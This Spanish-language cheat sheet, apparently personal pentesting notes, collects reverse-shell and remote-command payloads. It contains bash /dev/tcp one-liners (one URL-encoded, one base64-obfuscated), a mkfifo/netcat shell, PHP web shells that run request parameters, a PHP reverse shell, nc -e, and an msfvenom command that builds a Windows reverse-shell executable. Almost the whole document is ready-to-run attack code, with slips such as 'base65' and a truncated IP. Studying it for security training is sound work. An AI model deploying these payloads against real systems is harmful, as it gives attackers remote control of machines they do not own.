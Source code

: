 # RCE - Reverse Shell

Aquí iremos describiendo las diferentes maneras de crear SHELLs a medida que nos las encontremos.

## LINUX

Diferentes maneras de crear shells en linux.

La manera mas directa de crear una reverse shell en Linux es:

```bash
bash -i >& /dev/tcp/10.10.14.49/443 0>&1
```

Aunque a veces es mejor indicárselo como parámetro:

```bash
bash -c "bash -i >& /dev/tcp/10.10.14.49/443 0>&1"
```

En el caso de pasarlo como parámetro en una url hay que "escapar" los & con **%26**.

```bash
bash -c "bash -i >%26 /dev/tcp/10.10.14.49/443 0>%261"
```

Tambien podemos pasar tode en base64. Para generarlo:

```bash
echo "bash -c 'bash -i > /dev/tcp/10.11.16.52/443 0>&1'" | base65
```

Para ejecutarlo:

```bash
echo "YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjExLjE2MC80NDQ0IDA+JjEiCg==" | base64 -d | bash
```

Otra manera:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.76.112 443 >/tmp/f
```

## PHP

Ejecución de comandos

```php
<?php system($_REQUEST["cmd"]); ?>
```

Otra manera más bonita:

```php
<?php
    if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
    }
?>
```

Similar a esta:

```php
<?php
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>

```

Directamente la consola:

```php
<?php system("bash -i >& /dev/tcp/192.168.11.160/443 0>&1"); ?>
```

## NETCAT

Con netcat se puede entablar reverse shell:

```bash
nc -e /bin/sh 92.168.11.160 443
```

Ya tambien ponerse a la escucha:

```bash
sudo nc -nlvp 443
```

## MSFVENOM

### Fichero EXE

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.51 LPORT=443 -f exe -o reverse.exe
```
